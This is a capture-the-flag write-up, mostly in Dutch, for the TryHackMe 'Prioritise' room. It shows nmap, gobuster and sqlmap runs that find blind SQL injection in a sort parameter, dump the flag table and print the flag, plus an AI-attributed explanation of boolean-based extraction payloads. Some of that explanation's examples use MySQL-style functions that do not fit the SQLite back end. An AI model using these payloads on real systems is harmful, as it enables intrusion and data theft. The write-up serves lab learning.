



# Prioritise
## In this challenge you will explore some less common SQL Injection techniques.
Difficulty: Medium
URL: https://tryhackme.com/room/prioritise

### Info given

We have this new to-do list application, where we order our tasking based on priority! Is it really all that secure, though...?
Explore some less common SQL Injection techniques.

### Tasks
- What is the flag?


# Content

### Scouting

```
$ nmap -sCV -p- 10.114.151.213
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 30:d7:4f:31:ea:58:ec:f3:17:6b:20:93:eb:07:12:ab (RSA)
|   256 e8:51:b9:10:34:c0:f4:3c:58:c7:aa:e7:e5:57:77:d3 (ECDSA)
|_  256 7d:19:56:5d:27:2b:40:10:ed:90:8b:cc:98:0d:f7:47 (ED25519)
80/tcp open  rtsp
```

Geen datum invullen, en wel `'` zorgt voor een internal serer error en geeft de pagina http://10.114.151.213/new .
http://10.114.151.213/?success=Added%20new%20item 
`'` met een datum is wel oke.


Alles achter `succes=` komt te staan in de balk boven als status message.

```
$ gobuster dir -u http://10.114.151.213 -w tools/wordlists/Discovery/Web-Content/common.txt
new                  (Status: 405) [Size: 178]
```
We kunnen ook sorteren
- Datum: http://10.114.151.213/?order=date
- Naam: http://10.114.151.213/?order=title
- Done: http://10.114.151.213/?order=done

Knop om dingen te verwijderen
http://10.114.151.213/?success=Deleted%20item

Er gaat een POST request met payload `title=fbc&date=11%2F18%2F2026` als je item toevoegt.
Delete gaat get request naar http://10.114.151.213/delete/X waar $x\in \mathbb{N}^+$.


### Opzoeken SQL injection
https://en.wikipedia.org/wiki/SQL_injection
SQL injection is a common security vulnerability that arises from letting attacker-supplied data become SQL code. 
For example, in the SQL statement select * from person where name = 'susan' and age = 2 the string 'susan' is data and the fragment and age = 2 is an example of a command (the value 2 is also data in this example).
SQL injection occurs when specially crafted user input is processed by the receiving program in a way that allows the input to exit a data context and enter a command context.  

Now imagine that instead of entering 'susan' the attacker entered ' or 1=1; --

The program will use the same string concatenation approach with the 3 fragments of select * from person where name=', the user input of ' or 1=1; --, and ' and age = 2 and construct the statement select * from person where name='' or 1=1; --' and age = 2. Many databases will ignore the text after the '--' string as this denotes a comment. The structure of the SQL command is now select * from person where name='' or 1=1; and this will select all person rows rather than just those named 'susan' whose age is 2. The attacker has managed to craft a data string which exits the data context and entered a command context.

### sqlmap tool
https://www.kali.org/tools/sqlmap/

Van het voorbeeld:
`sqlmap -u "http://192.168.1.250/?p=1&forumaction=search" --dbs`
Target website:
```
$ sqlmap -u "http://10.114.151.213/new" --data=title=dfg&date=11%2F24%2F2026
```
Sqlmap doet er best lang over, ik heb geen idee of het nou iets aan het doen is.
Zonder arguments ging veel sneller;
```
$ sqlmap -u "http://10.114.151.213"
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.10.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:58:42 /2026-11-15/

[11:58:43] [INFO] testing connection to the target URL
[11:58:43] [INFO] checking if the target is protected by some kind of WAF/IPS
[11:58:43] [INFO] testing if the target URL content is stable
[11:58:43] [INFO] target URL content is stable
[11:58:43] [CRITICAL] no parameter(s) found for testing in the provided data (e.g. GET parameter 'id' in 'www.site.com/index.php?id=1'). You are advised to rerun with '--forms --crawl=2'
[11:58:43] [WARNING] your sqlmap version is outdated

[*] ending @ 11:58:43 /2026-11-15/

```
```
$ sqlmap -u "http://10.114.151.213" --forms --crawl=2
[ERROR] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent', skipping to the next target
```
```
$ sqlmap -u "http://10.114.151.213" --forms --crawl=2 --level=2 --risk=2
[ERROR] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests.
```

Field aanvallen wat eigenlijk geen data verwacht (soort client side verification probleem)?
http://10.114.151.213/?order=done
```
$ sqlmap -u "http://10.114.151.213?order=done" --risk=3 --level=5
[12:14:22] [INFO] GET parameter 'order' appears to be 'SQLite AND boolean-based blind - WHERE, HAVING, GROUP BY or HAVING clause (JSON)' injectable (with --code=200)
it looks like the back-end DBMS is 'SQLite'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y

GET parameter 'order' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 1765 HTTP(s) requests:
---
Parameter: order (GET)
    Type: boolean-based blind
    Title: SQLite AND boolean-based blind - WHERE, HAVING, GROUP BY or HAVING clause (JSON)
    Payload: order=done AND CASE WHEN 5278=5278 THEN 5278 ELSE JSON(CHAR(109,104,69,114)) END
---
[12:16:50] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[12:16:50] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 1738 times
```
We kunnen met de developer console ook bevestigen dat dit een 200 terug geeft.


### Getting stuff out of the database
```
$ sqlmap -u "http://10.114.151.213?order=done" --risk=3 --level=5 --dbms=SQLite --tables
[2 tables]
+-------+
| flag  |
| todos |
+-------+
```
```
$ sqlmap -u "http://10.114.151.213?order=done" --risk=3 --level=5 --dbms=SQLite -T flag --dump
[1 entry]
+----------------------------------------+
| flag                                   |
+----------------------------------------+
| flag{65f2f8cfd53d59422f3d7cc62cc8fdcd} |
+----------------------------------------+
```

FLAG: `flag{65f2f8cfd53d59422f3d7cc62cc8fdcd}`

### Hoe werkt dit?

Qwen zegt dit:
```
?order=done AND CASE WHEN 1=1 THEN 1 ELSE JSON(CHAR(65)) END   -> expect CLEAN
?order=done AND CASE WHEN 1=2 THEN 1 ELSE JSON(CHAR(65)) END   -> expect ERROR
```
You now have a yes/no machine;
1=1 → CLEAN = your question's answer was YES
1=2 → ERROR = your question's answer was NO
That's it. Every request you send is a yes/no question, and the app answers by either working (YES) or throwing that JSON error (NO). To read a secret string out of the DB, you ask questions whose YES/NO depends on the secret — specifically, "is this character's ASCII code greater than X?" — and binary-search until you've pinned down each character.
So your trivial test condition (1=1) just gets replaced by a question about the data. Same CASE WHEN … ELSE JSON(…) shell, new condition inside:
`?order=done AND CASE WHEN <QUESTION ABOUT THE DATA> THEN 1 ELSE JSON(CHAR(65)) END`
Ex:
`ASCII(SUBSTRING(DATABASE(),1,1)) > 79`
and then do a binary search.
Get the length:
`?order=done AND CASE WHEN LENGTH(DATABASE())>5 THEN 1 ELSE JSON(CHAR(65)) END`
